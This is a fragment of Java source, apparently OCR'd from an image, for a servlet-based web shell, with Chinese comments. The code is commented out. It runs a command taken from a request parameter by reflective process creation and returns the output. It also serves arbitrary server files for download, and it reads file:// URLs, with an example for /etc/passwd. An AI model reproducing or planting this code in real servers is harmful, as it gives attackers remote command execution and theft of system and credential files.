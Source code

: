 ```java
//            int[] fds = {-1, -1, -1};
//            Object obj = null;
//            try {
//                obj = constructor.newInstance(prog, argBlock, argc, null, 0, null, fds, false);
//                Method method = cls.getDeclaredMethod("getInputStream");
//                method.setAccessible(true);
//                InputStream is = (InputStream) method.invoke(obj);
//                InputStreamReader isr = new InputStreamReader(is);
//                BufferedReader br = new BufferedReader(isr);
//                StringBuilder stringBuilder = new StringBuilder();
//                String line;
//                while ((line = br.readLine()) != null) {
//                    stringBuilder.append(line + '\n');
//                }
//                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            } catch (InstantiationException | NoSuchMethodException | InvocationTargetException |
//                     IllegalAccessException e) {
//                throw new RuntimeException(e);
//            }
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

////读文件
//            File file = new File(cmd);
//            // 1. 确保文件存在且可读
//            if (!file.exists() || !file.isFile() || !file.canRead()) {
//                System.out.println("文件不存在或无法读取: " + cmd);
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_NOT_FOUND, "文件不存在");
//                return;
//            }
//            // 2. 设置响应头，提供文件下载
//            HttpServletResponse response = (HttpServletResponse) servletResponse;
//            response.setContentType("application/octet-stream");
//            response.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
//            // 3. 读取文件并写入响应流
//            try (FileInputStream fis = new FileInputStream(file);
//                 OutputStream out = response.getOutputStream()) {
//                byte[] buffer = new byte[4096];
//                int bytesRead;
//                while ((bytesRead = fis.read(buffer)) != -1) {
//                    out.write(buffer, 0, bytesRead);
//                }
//                out.flush();
//            } catch (IOException e) {
//                System.err.println("文件传输失败: " + e.getMessage());
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "文件传输失败");
//            }

////读纯文本 ?cmd=file:///etc/passwd or 列目录 ?cmd=file:///
//            final URL url = new URL(cmd);
//            final BufferedReader in = new BufferedReader(new
//                    InputStreamReader(url.openStream()));
//            StringBuilder stringBuilder = new StringBuilder();
//            String line;
//            while ((line = in.readLine()) != null) {
//                stringBuilder.append(line + '\n');
//            }
//            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            servletResponse.getOutputStream().flush();
```